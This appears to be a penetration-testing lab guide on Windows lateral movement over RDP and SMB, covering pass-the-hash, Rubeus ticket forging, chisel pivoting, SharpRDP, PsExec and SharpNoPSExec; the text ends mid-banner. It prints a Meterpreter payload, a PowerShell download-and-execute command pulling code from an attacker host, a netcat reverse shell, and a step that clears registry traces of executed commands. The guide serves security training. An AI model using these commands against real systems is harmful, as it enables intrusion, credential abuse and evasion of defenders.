# Windows Lateral Movement

## Introduction

Lateral Movement refers to the techniques you use to move through a network after gaining initial access. By understanding lateral movement, attackers and defenders can better navigate and secure networks. This knowledge allows defenders to implement more effective security measures and helps attackers identify and exploit weaknesses in network defenses, ultimately leading to a more robust and resilient security posture.

It involves moving from one system to another within a network, often with the goal of escalating privileges or accessing sensitive data. Using lateral movement techniques, you can move deeper into a network in search of credentials, sensitive data, and other high-value assets.

To perform a lateral movement, you need any form of credentials, including passwords, hashes, tickets, SSH keys, and session cookies. You can leverage those to connect to a remote computer in the network. Effective lateral movement requires a deep understanding of network architectures and the ability to identify services and protocols you can leverage to execute code on remote systems.

### Networks & Systems

Understanding how networks and systems work is crucial to performing lateral movement. Your initial step is to identify or map the network devices that you can target; you can do that through port scanning, ping sweep, or using AD information.

Once you understand the network, you need to be aware that some systems may be out of reach because of network segmentation or firewall restrictions. In those cases, you need to think outside the box to get access to those services.

#### Direct Lateral Movement

... is where you can execute commands directly on the target machine and force the target machine to connect back to you. For example, if you compromise SRV01 and need to move laterally to SRV02, you can use PSExec from SRV01 to execute commands on SRV02 and obtain a session or shell on SRV02.



#### Indirect Lateral Movement

... involves executing commands on the target machine when it receives instructions from another system. For example, suppose you can't reach SRV02 directly from SRV01 due to a network firewall restriction, but SRV02 can connect to the Windows Update Server. In this case, if you compromise the WSUS server and create a fake Windows Update that executes your desired command, once SRV02 retrieves the update, it will run your malicious update, allowing you to obtain a shell on SRV02.



### Network Segmentation


Understanding network segmentation is crucial for effectively performing lateral movement as attackers. Network segmentation involves dividing a network into smaller, isolated segments to limit the spread of an attack. Proper network segmentation can:

- **Contain breaches**: Restrict your movement and reduce the attack surface.
- **Enhance monitoring**: Allow for more focused and effective monitoring of network traffic.
- **Improve access control**: Enforce strict access policies between different segments.



In the above image, you can see a high-level overview of the network topology. There are three network segments, and the device that determines which network can reach the other is the Switch Layer 3. In other networks, this device can be a router, a Linux server, or a firewall. Understanding how these devices control communication between segments is essential for planning lateral movement.

## Remote Services

### RDP

#### Rights

The required rights to connect to RDP depend on the configuration; by default, only members of the `Administrators` or `Remote Desktop Users` groups can connect via RDP. Additionally, an administrator can grant specific users or groups rights to connect to RDP. Because those rights are set locally, the only way to enumerate them is if you have administrative rights on the target computer.

#### Enum

To use RDP for lateral movement you need to be aware if RDP is present on the environment you are testing, you can use nmap or any other network enumeration tool to search for port 3389 and once you get a list of targets, you can use that list with tools such as NetExec to test multiple credentials.

```bash
d41y@htb[/htb]$ netexec rdp 10.129.229.0/24 -u helen -p 'RedRiot88' -d inlanefreight.local
RDP         10.129.229.242  3389   DC01             [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC01) (domain:DC01) (nla:True)
RDP         10.129.229.244  3389   SRV01            [*] Windows 10 or Windows Server 2016 Build 17763 (name:SRV01) (domain:SRV01) (nla:True)
RDP         10.129.229.242  3389   DC01             [-] inlanefreight.local\helen:RedRiot88 (STATUS_LOGON_FAILURE)
RDP         10.129.229.244  3389   SRV01            [+] inlanefreight.local\helen:RedRiot88 (Pwn3d!)
...SNIP...
```

You can confirm Helen has RDP rights on SRV01. Remeber that `Pwn3d!` doesn't mean you have administrative rights on the target machine but that you have rights to connect to RDP.

#### Lateral Movement from Windows

To connect to RDP from Windows you can use the default Windows Remote Desktop Connection client that can be accessed running `mstsc` on Run, CMD, or PowerShell.

```
C:\Tools> mstsc.exe
```

This will open a client where you can specify the target IP address or domain name, and one you click `Connect`, it will prompt you for the credentials.



Here are some actions that can be efficiently executed using RDP:

- File Transfer
- Running Applications
- Printing
- Audio and Video Streaming
- Clipboard Sharing

#### Lateral Movement from Linux

To connect to RDP from Linux, you can use the `xfreerdp` command-line tool.

```bash
d41y@htb[/htb]$ xfreerdp /u:Helen /p:'RedRiot88' /d:inlanefreight.local /v:10.129.229.244 /dynamic-resolution /drive:.,linux
```

By running this command in the terminal, you can establish an RDP connection to the specified Windows machine and perform similar actions as you would using the Windows Remote Desktop Connection client.

##### Optimizing xfreerdp for Low Latency Networks or Proxy Connections

```bash
d41y@htb[/htb]$ xfreerdp /u:Helen /p:'RedRiot88' /d:inlanefreight.local /v:10.129.229.244 /dynamic-resolution /drive:.,linux /bpp:8 /compression -themes -wallpaper /clipboard /audio-mode:0 /auto-reconnect -glyph-cache
```

- `/bpp:8`: Reduces the color depth to 8 bits per pixel, decreasing the amount of data transmitted.
- `/compression`: Enables compression to reduce the amount of data sent over the network.
- `-themes`: Disables desktop themes to reduce graphical data.
- `-wallpaper`: Disables the desktop wallpaper to further reduce graphical data.
- `/clipboard`: Enables clipboard sharing between the local and remote machines.
- `/audio-mode:0`: Disables audio redirection to save bandwidth.
- `/auto-reconnect`: Automatically reconnects if the connection drops, improving session stability.
- `-glyph-cache`: Enables caching of glyphs (text characters) to reduce the amount of data sent for text rendering.

Using these options helps to optimize the performance of the RDP session, ensuring a smoother experience even in less-than-ideal network conditions.

#### Restricted Admin Mode

... is a security feature introduced by Microsoft to mitigate the risk of credential theft over RDP connections. When enabled, it performs a network logon rather than an interactive logon, preventing the caching of credentials on the remote systems. This mode only applies to administrators, so it cannot be used when you log on to a remote computer with a non-admin account.

Although this mode prevents the caching of credentials, if enabled, it allows the execution of PtH or PtT for lateral movement.

To confirm if `Restricted Admin Mode` is enabled, you can query the following registry key:

```
C:\Tools> reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin
```

The value of `DisableRestrictedAdmin` indicates the status of `Restricted Admin Mode`:

- 0 means enabled
- 1 means disabled

If the key does not exist it means that it is disabled; you will see the following error message:

```
C:\Tools> reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin

ERROR: The system was unable to find the specified registry key or value.
```

Additionally, to enable `Restricted Admin Mode`, you would set the `DisableRestrictedAdmin` value to `0`:

```
C:\Tools> reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /d 0 /t REG_DWORD
```

And to disable `Restricted Admin Mode`, set the `DisableRestrictedAdmin` value to `1`:

```
C:\Tools> reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /d 1 /t REG_DWORD
```

#### Pivoting

It is common that you will need to use pivoting to perform lateral movement.

You will need to configure a SOCKS5 proxy on port 1080 in the `/etc/proxychains.conf` file:

```bash
d41y@htb[/htb]$ cat /etc/proxychains.conf | grep -Ev '(^#|^$)' | grep socks
socks5 127.0.0.1 1080
```

Next, on your Linux machine, you will initiate reverse port forwarding server:

```bash
d41y@htb[/htb]$ ./chisel server --reverse 
2024/03/28 07:09:08 server: Reverse tunnelling enabled
2024/03/28 07:09:08 server: Fingerprint AKOstLSoSTPQPp2PVEALM6z9Jx0IQVEEmO7bOSan1s4=
2024/03/28 07:09:08 server: Listening on http://0.0.0.0:8080
2024/03/28 07:10:49 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

Then, in SRV01, you will connect to the server with the following command: `chisel.exe client <VPN IP> R:socks`

```powershell
	PS C:\Tools> .\chisel.exe client 10.10.14.207:8080 R:socks
2024/03/28 06:10:48 client: Connecting to ws://10.10.14.207:8080
2024/03/28 06:10:49 client: Connected (Latency 137.6381ms)
```

#### PtH and PtT

Once you confirm `Restricted Admin Mode` is enabled, or if you can enable it, you can proceed to perform PtH or PtT attacks with RDP.

To perform PtH from a Linux machine, you can use `xfreerdp` with the `/pth` option to use a hash and connect to RDP.

```bash
d41y@htb[/htb]$ proxychains4 -q xfreerdp /u:helen /pth:62EBA30320E250ECA185AA1327E78AEB /d:inlanefreight.local /v:172.20.0.52
[13:11:55:443] [84886:84887] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[13:11:55:444] [84886:84887] [WARN][com.freerdp.crypto] - CN = SRV02.inlanefreight.local
```

For PtT you can use Rubeus. You will forge a ticket using Helen's hash. First you need to launch a sacrificial process with the option `createnetonly`:

```powershell
PS C:\Tools> .\Rubeus.exe createnetonly /program:powershell.exe /show
```

In the new PowerShell window you will use Helen's hash to forge a TGT:

```powershell
PS C:\Tools> .\Rubeus.exe asktgt /user:helen /rc4:62EBA30320E250ECA185AA1327E78AEB /domain:inlanefreight.local /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 62EBA30320E250ECA185AA1327E78AEB
[*] Building AS-REQ (w/ preauth) for: 'inlanefreight.local\helen'
[*] Using domain controller: fe80::711d:1399:b85a:50c5%9:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFrjCCBaqgAwIBBaEDAgEWooIEsTCCBK1hggSpMIIEpaADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9D
      ...SNIP...

[+] Ticket successfully imported!
...SNIP...
```

From the window where you imported the ticket, you can use the `mstsc /restrictedAdmin` command:

```powershell
PS C:\Tools> mstsc.exe /restrictedAdmin
```

It will open a window as the currently logged-in user. It doesn't matter if the name is not the same as the account you are trying to impersonate.



When you click login, it will allow you to connect to RDP using the hash:



#### SharpRDP

... is a .NET tool that allows for non-graphical, authenticated remote command execution through RDP, leveraging the `mstscax.dll` library used by RDP clients. This tool can perform actions such as connecting, authenticating, executing commands, and disconnecting without needing a GUI client or SOCKS proxy.

SharpRDP relies on the terminal services library and generates the required DLLs from the `mstscax.dll`. It uses an invisible Windows form to handle the terminal services connection object instantiation and perform actions needed for lateral movement.

You will use Metasploit and PowerShell to execute commands on the target machine. In your Linux machine you will execute Metasploit to listen on port 8888:

```bash
d41y@htb[/htb]$ msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_https; set LHOST 10.10.14.207; set LPORT 8888; set EXITONSESSION false; set EXITFUNC thread; run -j"
```

Then you will generate a payload with msfvenom using PowerShell reflection:

```bash
d41y@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.207 LPORT=8888 -f psh-reflection -o s
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 774 bytes
Final size of psh-reflection file: 3543 bytes
Saved as: s
```

Next you use Python http server to host your payload:

```bash
d41y@htb[/htb]$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now you can use SharpRDP to execute a PowerShell command to execute your payload and provide a session:

```powershell
PS C:\Tools> .\SharpRDP.exe computername=srv01 command="powershell.exe IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.207/s')" username=inlanefreight\helen password=RedRiot88
[+] Connected to          :  srv01
[+] Execution priv type   :  non-elevated
[+] Executing powershell.exe iex(new-object net.webclient).downloadstring('http://10.10.14.207/s')
[+] Disconnecting from    :  srv01
[+] Connection closed     :  srv01
```

> [!NOTE]
> The execution of commands of SharpRDP is limited to 259 chars.

SharpRDP uses Microsoft Terminal Services to execute commands, leaving traces of command execution within the `RunMRU` registry key (_`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` or `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU`_). You can use [CleanRUNMR](https://github.com/0xthirteen/CleanRunMRU) to clean all command records. To compile the tool, you can use the built-in Microsoft `csc` compiler tool. First, transfer CleanRunMRU's `Program.cs` file from your attack host to the target computer:

```powershell
PS C:\Tools> wget -Uri http://10.10.14.207/CleanRunMRU/CleanRunMRU/Program.cs -OutFile CleanRunMRU.cs
```

Now you can use `csc.exe` to compile it:

```powershell
PS C:\Tools> C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe .\CleanRunMRU.cs
Microsoft (R) Visual C# Compiler version 4.7.3190.0
for C# 5
Copyright (C) Microsoft Corporation. All rights reserved.

This compiler is provided as part of the Microsoft (R) .NET Framework, but only supports language versions up to C# 5, which is no longer the latest version. For compilers that support newer versions of the C# programming language, see http://go.microsoft.com/fwlink/?LinkID=533240
```

Now you can use `CleanRunMRU.exe` to clear all commands:

```powershell
PS C:\Tools> .\CleanRunMRU.exe  clearall
HKCU:Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU
[+] Cleaned all RunMRU values
```

#### Advantages

RDP provides several advantages for lateral movement, making it a preferred method for attackers in certain scenarios. Some of the key advantages include:

- **Evade detection**: RDP traffic is common in business environments, making it less likely to raise suspicion.
- **Non-Admin Access**: RDP access does not necessarily require administrative rights; a non-admin user can also have RDP access.
- **Persistent Access**: Once a foothold is established, RDP can provide persistent access to the network.

### SMB

#### Rights

For successful SMB lateral movement, you require an account that is a member of the Administrators group on the target computer. It's also crucial that ports TCP 445 and TCP 139 are open. Optionally, port TCP 135 may also need to be open because some tools use it for communication.

##### UAC Remote Restrictions

UAC might prevent you from achieving RCE, but understanding these restrictions is crucial for effectively leveraging these tools while navigating UAC limitations on different versions of Windows, these restrictions imply several key points:

- Local admin privileges are necessary.
- Local admin accounts that are not RID 500 cannot run tools such as PsExec on Windows Vista and later.
- Domain users with admin rights on a machine can execute tools such as PsExec.
- RID 500 local admin accounts can utilize tools such as PsExec on machines.

##### SMB Named Pipes

Named pipes in SMB, accessed via the `IPC$` share over TCP port 445, are vital for lateral movement within a network. They enable a range of operations from NULL session context to those requiring local administrative privileges. For instance, `svcctl` facilitates the remote creation, starting, and stopping of services to execute commands, as seen in tools like Impacket's `psexec.py` and `smbexec.py`. `atsvc` supports the remote creation of scheduled tasks for command execution, utilized by Impacket's `atexec.py`. These named pipes are crucial for executing and managing lateral movement operations effectively. `winreg` provides a remote access to the Windows registry, allowing to query and modify registry keys and values, helping in the persistence and configuration of malicious payloads.

#### Enum

You need to ensure that SMB is running on the target host.

You must conduct a port scan on the target host to verify whether SMB is running on the target. By default, SMB uses ports TCP 139 and TCP 445.

```bash
d41y@htb[/htb]$ proxychains4 -q nmap 172.20.0.52 -sV -sC -p139,445 -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2024-06-08 04:07 UTC
Nmap scan report for srv01.internal.cloudapp.net (172.20.0.51)
Host is up (0.0016s latency).

PORT    STATE SERVICE       VERSION
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: -1s
|_nbstat: NetBIOS name: SRV02, NetBIOS user: <unknown>, NetBIOS MAC: 00:0d:3a:e2:38:3d (Microsoft)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-06-08T04:07:51
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.65 seconds
```

#### Lateral Movement from Windows

##### PSExec

PSExec is included in Microsoft's Sysinternals suite, a collection of tools designed to assist administrators in system management tasks. This tool facilitates RCE and retrieves output over a named pipe using the SMB protocol, operating on TCP port 445 and TCP port 139.

By default, PSExec performs the following action:

1. Establish a link to the hidden `ADMIN$` share, which corresponds to the `C:\Windows` directory on the remote system, via SMB.
2. Uses the Service Control Manager (_SMC_) to initiate the `PsExecsvc` service and set up a named pipe on the remote system.
3. Redirects the console's input and output through the created named pipe for interactive command execution.

> [!INFO]
> PsExec eliminates the double-hop problem because credentials are passed with the command and generates an interactive logon session.

You can use PsExec to connect to a remote host and execute commands interactively. You must specify the computer or target where you are connecting `\\SRV02`, the option `-i` for interactive shell, the administrator login credentials with the option `-u <user>` and the password `-p <password>`, and `cmd` to specify the application to execute:

```
C:\Tools\SysinternalsSuite> .\PsExec.exe \\SRV02 -i -u INLANEFREIGHT\helen -p RedRiot88 cmd
PsExec v2.43 - Execute processes remotely
Copyright (C) 2001-2023 Mark Russinovich
Sysinternals - www.sysinternals.com

Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami && hostname
inlanefreight\helen
SRV02
```

In case you want to execute your payload as `NT AUTHORITY\SYSTEM`, you need to specify the option `-s` which means that it will run with SYSTEM privileges.

```powershell
PS C:\Tools> .\PsExec.exe \\SRV02 -i -s -u INLANEFREIGHT\helen -p RedRiot88 cmd

PsExec v2.43 - Execute processes remotely
Copyright (C) 2001-2023 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

##### [SharpNoPSExec](https://github.com/juliourena/SharpNoPSExec)

... is a tool designed to facilitate lateral movement by leveraging existing services on a target system without creating new ones or writing to disk, thus minimizing detection risk. The tool queries all services on the target machine, identifying those with a start type set to disabled or manual, current status of stopped, and running with LocalSystem privileges. It randomly selects one of these services and temporarily modifies its binary path to point to a payload of the attacker's choice. Upon execution, SharpNoPSExec waits approximately 5 seconds before restoring the original service configuration, returning the service to its previous state. This approach not only provides a shell but also avoids the creation of new services, which security monitoring systems could flag.

Executing the tool without parameters you will see some help and usage information.

```powershell
PS C:\Tools> .\SharpNoPSExec.exe

███████╗██╗  ██╗ █████╗ ██████╗ ██████╗ ███╗   ██╗ ██████╗ ██████╗ ███████╗███████╗██╗  ██╗███████╗ ██████╗
██╔════╝██║  ██║██╔══██╗██╔══██╗██╔══██╗████╗  ██║██╔═══██╗██╔══██╗██╔════╝██╔════╝╚██╗██╔╝██╔════╝██╔════╝
███████╗███████║███████║██████╔╝██████╔╝██╔██╗ ██║██║   ██║██████╔╝███████╗█████╗   ╚███╔╝ █████╗  ██║
╚════██║██╔══██║██╔══██║██╔══██╗██╔═══╝ ██║╚██╗██║██║   ██║██╔═══╝ ╚════██║██╔══╝   ██╔██╗ ██╔══╝  ██║
███████║██║  ██║██║  ██║██║  ██║██║     ██║ ╚████║╚██████╔╝██║     ███████║███████╗██╔╝ ██╗███████╗╚██████╗
╚══════╝╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═╝╚═╝     ╚═╝  ╚═══╝ ╚═════╝ ╚═╝     ╚══════╝╚══════╝╚═╝  ╚═╝╚══════╝ ╚═════╝

Version: 0.0.3
Author: Julio Ureña (PlainText)
Twitter: @juliourena

Usage:
SharpNoPSExec.exe --target=192.168.56.128 --payload="c:\windows\system32\cmd.exe /c powershell -exec bypass -nop -e ZQBjAGgAbwAgAEcAbwBkACAAQgBsAGUAcwBzACAAWQBvAHUAIQA="

Required Arguments:
--target=       - IP or machine name to attack.
--payload=      - Payload to execute in the target machine.

Optional Arguments:
--username=     - Username to authenticate to the remote computer.
--password=     - Username's password.
--domain=       - Domain Name, if no set a dot (.) will be used instead.

--service=      - Service to modify to execute the payload, after the payload is completed the service will be restored.
Note: If not service is specified the program will look for a random service to execute.
Note: If the selected service has a non-system account this will be ignored.

--help          - Print help information.
```

To perform lateral movement with SharpNoPSExec, you will need a listener as this tool will only allow you to execute code on the machine, but it won't give you an interactive shell as PsExec does. You can start listening with Netcat:

```bash
d41y@htb[/htb]$ nc -lnvp 8080
Listening on 0.0.0.0 8080
```

SharpNoPSExec uses the credentials of the console you are executing the command from, so you need to make sure to launch it from a console that has the correct credentials. Alternatively, you can use the arguments `--username`, `--password` and `--domain`. Additionally, you have to provide the target IP address or the domain name `--target=<IP/DOMAIN>`, and the command you want to execute. For the command, you can use the payload in the help menu to set your reverse shell `--payload="c:\windows\system32\cmd.exe /c <reverseShell>`.

```powershell
PS C:\Tools> .\SharpNoPSExec.exe --target=172.20.0.52 --payload="c:\windows\system32\cmd.exe /c powershell -exec bypass -nop -e ...SNIP...AbwBzAGUAKAApAA=="

[>] Open SC Manager from 172.20.0.52.

[>] Getting services information from 172.20.0.52.

[>] Looking for a random service to execute our payload.
    |-> Querying service NetTcpPortSharing
    |-> Querying service UevAgentService
    |-> Service UevAgentService authenticated as LocalSystem.

[>] Setting up payload.
    |-> payload = c:\windows\system32\cmd.exe /c ...SNIP...AbwBzAGUAKAApAA==
    |-> ImagePath previous value = C:\Windows\system32\AgentService.exe.
    |-> Modifying ImagePath value with payload.

[>] Starting service User Experience Virtualization Service with new ImagePath.

[>] Waiting 5 seconds to finish.

[>] Restoring service configuration.
    |-> User Experience Virtualization Service Log On => LocalSystem.
    |-> User Experience Virtualization Service status => 4.
    |-> User Experience Virtualization Service ImagePath => C:\Windows\system32\AgentService.exe
```

Looking at the attack box, you can see the reverse shell connection successfully being established:

```bash
d41y@htb[/htb]$ nc -lnvp 8080
Listening on 0.0.0.0 8080
Connection received on 172.20.0.52 49866

PS C:\Windows\system32>
```

##### [NimExec](https://github.com/frkngksl/NimExec)

... is a fileless remote command execution tool that operates by exploiting the Service Control Manager Remote Protocol (_MS-SCMR_). Instead of using traditional WinAPI calls, NimExec manipulates the binary path of a specified or randomly selected service with LocalSystem privileges to execute a given command on the target machine and later restores the original configuration. This is achieved through custom-crafted RPC packets sent over SMB and the `svcctl` named pipe. Authentication is handled using NTLM hash, which NimExec utilizes to complete the process via the NTLM Authentication method over its custom packets. By manually crafting the necessary network packets and avoiding OS-specific functions, this tool benefits from Nim's cross-compilation capabilities, making it versatile across different OS.

NimExec requires the Nim Programming Language. The tool requires the `ptr_math`, `nimcrypto`, and `hostname` modules.

```bash
d41y@htb[/htb]$ sudo apt update
d41y@htb[/htb]$ sudo apt install nim
d41y@htb[/htb]$ git clone https://github.com/frkngksl/NimExec
d41y@htb[/htb]$ cd NimExec/
d41y@htb[/htb]$ nimble install ptr_math nimcrypto hostname
```

If you try to compile the NimExec executable, you may encounter an error in the file `~/.nimble/pkgs/nimcrypto-0.7.2/nimcrypto/hmac.nim` related to the import of `hash`, `utils`, `cpufeatures`. One way to fix that error is to change line `61` from `import ./[hash, utils, cpufeatures]` to `import hash, utils, cpufeatures` and save the file.

After saving the file, you compile the executable with Nim, specifying release mode (`-d:release`), the garbage collector (`--gc:markAndSweep`), the CPU architecture (`--cpu:amd64`), the cross-compilation target (`--os:windows`), the C compiler (`--cc:gcc`), the exact GCC binary to use ( `--gcc.exe:x86_64-w64-mingw32-gcc`), the linker (`--gcc.linker.exe:x86_64-w64-mingw32-gcc`), the output filename (`-o:NimExec.exe`), and the source file to compile (`Main.nim`).

```bash
d41y@htb[/htb]$ nim c -d:release --gc:markAndSweep --cpu:amd64 --os:windows --cc:gcc --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc -o:NimExec.exe Main.nim

Hint: used config file '/etc/nim/nim.cfg' [Conf]
Hint: used config file '/etc/nim/config.nims' [Conf]

<SNIP>

CC: ../.nimble/pkgs/nimcrypto-0.7.2/nimcrypto/hmac.nim
CC: ../.nimble/pkgs/nimcrypto-0.7.2/nimcrypto/sysrand.nim
CC: HeaderFillers.nim
CC: Packets.nim
CC: Main.nim
Hint:  [Link]
Hint: gc: markAndSweep; opt: speed; options: -d:release
68150 lines; 6.566s; 181.035MiB peakmem; proj: /home/htb-student/NimExec/Main.nim; out: /home/htb-student/NimExec/NimExec.exe [SuccessX]
```

Running the tool without parameters give you some commands and descriptions to let you know how to use it.

```powershell
PS C:\Tools> .\NimExec.exe

                                                                                             _..._
                                                                                          .-'_..._''.
   _..._   .--. __  __   ___         __.....__                          __.....__       .' .'      '.\
 .'     '. |__||  |/  `.'   `.   .-''         '.                    .-''         '.    / .'
.   .-.   ..--.|   .-.  .-.   ' /     .-''"'-.  `.                 /     .-''"'-.  `. . '
|  '   '  ||  ||  |  |  |  |  |/     /________\   \ ____     _____/     /________\   \| |
|  |   |  ||  ||  |  |  |  |  ||                  |`.   \  .'    /|                  || |
|  |   |  ||  ||  |  |  |  |  |\    .-------------'  `.  `'    .' \    .-------------'. '
|  |   |  ||  ||  |  |  |  |  | \    '-.____...---.    '.    .'    \    '-.____...---. \ '.          .
|  |   |  ||__||__|  |__|  |__|  `.             .'     .'     `.    `.             .'   '. `._____.-'/
